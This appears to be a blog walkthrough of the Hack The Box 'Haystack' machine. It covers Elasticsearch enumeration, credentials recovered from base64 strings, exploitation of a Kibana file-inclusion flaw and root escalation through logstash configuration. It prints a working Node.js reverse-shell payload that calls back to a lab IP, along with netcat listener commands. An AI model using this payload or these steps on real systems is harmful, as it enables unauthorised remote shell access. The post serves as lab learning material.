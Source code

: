 ```yaml
---
layout: post
title: Haystack Writeup
date: '2019-11-19 14:43:00'
tags:
- hack-the-box
---
```


## Enumeration

Starting with Autorecon we can see &nbsp;hat ports 80, 22 and 9200 are open. Looking at port 80 we can see it just displays a picture

<figure class="kg-card kg-image-card"><img src="/content/images/2019/11/vlcsnap-2019-07-22-19h49m58s866.png" class="kg-image"></figure>

I thought this was just nice illustration, needle in a haystack etc, &nbsp;though this was me not being used to CTF style clues. If you download &nbsp;the file and use `strings` on it you'll find a base64 encoded clue for searching. However, I did this the hard way!

Moving onto some Nmap output it showed 9200 was running Elasticsearch

`9200/tcp open  elasticsearch syn-ack ttl 63 Elastic elasticsearch 6.4.2`

## Initial Exploitation

Good stuff, so next we have a look at what indexes are available

<figure class="kg-card kg-image-card"><img src="/content/images/2019/11/vlcsnap-2019-07-22-19h59m47s931.png" class="kg-image"></figure>

So, two instances and it looks like Kibana is installed somewhere. I &nbsp;tried elasticdump at this point but couldn't get it to work. I then ran a &nbsp;query to return all the results in the quotes index and saved them to a &nbsp;file.

<figure class="kg-card kg-image-card kg-width-wide"><img src="/content/images/2019/11/vlcsnap-2019-07-22-20h04m59s464.png" class="kg-image"></figure>

I then grepped for various words translated to Spanish such as needle, &nbsp;haystack etc. which was on the correct path but the wrong word. In the &nbsp;end I just scanned through the entries manually until I noticed a base64 &nbsp;encoded one

<figure class="kg-card kg-image-card"><img src="/content/images/2019/11/vlcsnap-2019-07-22-20h08m58s936.png" class="kg-image"></figure>

Decoding this we get

    root@RD1734747W10:~/hackthebox/haystack# echo cGFzczogc3BhbmlzaC5pcy5rZXk= |base64 -d
    pass: spanish.is.key

Okay, now we need to find the username. I try a couple of different &nbsp;greps based on the word in the sentence with the password, before trying &nbsp;_clave_ which is Spanish for key. Obvious really!

<figure class="kg-card kg-image-card"><img src="/content/images/2019/11/vlcsnap-2019-07-22-20h13m30s471.png" class="kg-image"></figure>

The second bit of base64 decodes as

    root@RD1734747W10:~/hackthebox/haystack# echo dXNlcjogc2VjdXJpdHkg | base64 -d
    user: security

Good stuff, lets see if that works to ssh into the box

<figure class="kg-card kg-image-card"><img src="/content/images/2019/11/vlcsnap-2019-07-22-20h17m22s277.png" class="kg-image"></figure>

Yup, and we can grab the user flag. On to root.

## Escalating Privileges

### Enumeration: Part 2

At this point we need to start enumerating again to see what we can see from our new position. Doing a `ps` it looked like Kibana was running, was wasn't unexpected given the presence of Elasticsearch. Running `ss state listening` showed Kibana listening on 5601.

### Compromising another account

Knowing from the nmap that the Kibana version was likely the same as the &nbsp;Elasticsearch, 6.4.2, I searched for any exploits and found &nbsp;[https://github.com/mpgn/CVE-2018-17246/](https://github.com/mpgn/CVE-2018-17246/) &nbsp;which look promising.

I saved the shell:

    (function(){
        var net = require("net"),
            cp = require("child_process"),
            sh = cp.spawn("/bin/sh", []);
        var client = new net.Socket();
        client.connect(4096, "10.10.14.12", function(){
            client.pipe(sh.stdin);
            sh.stdout.pipe(client);
            sh.stderr.pipe(client);
        });
        return /a/; // Prevents the Node.js application form crashing
    })();

on my Kali box and the used `scp` to copy it to `\tmp` on the server. I started a listener on Kali with `nc -lvp 4096` and then when logged in as `security` on the server I ran

<figure class="kg-card kg-image-card kg-width-wide"><img src="/content/images/2019/11/vlcsnap-2019-07-23-16h55m08s672.png" class="kg-image"></figure>

and caught the shell in the other window. I did have an issue that took a &nbsp;bit of searching to fix. If the connection dies for any reason &nbsp;re-running the command fails. If you rename `shell.js` to `shell2.js` (or anything else really) it will work again.

### Enumeration: Part 3

Now we are the Kibana user, it's time to enumerate again to see what we have access to now. &nbsp;I used [LinEnum](https://github.com/rebootuser/LinEnum) for this.

LinEnum turned up some interesting files in `/etc/logstash/conf.d/` which meant that any files created with the name starting with `/opt/kibana/logstash_*` and the correct line would be executed by the logstash process which runs as root!

<figure class="kg-card kg-image-card"><img src="/content/images/2019/11/vlcsnap-2019-07-23-17h15m41s319.png" class="kg-image"></figure>
### Escalation to root

So to exploit this we create a file, `/opt/kibana/logstash_shell` and start a listener `nc -lvp 8080` We then put the following in the file and wait...

<figure class="kg-card kg-image-card"><img src="/content/images/2019/11/vlcsnap-2019-07-23-17h18m59s311.png" class="kg-image"></figure>

We get a connection back to the listener and the root flag, job done.

<figure class="kg-card kg-image-card"><img src="/content/images/2019/11/vlcsnap-2019-07-23-17h20m21s470.png" class="kg-image"></figure>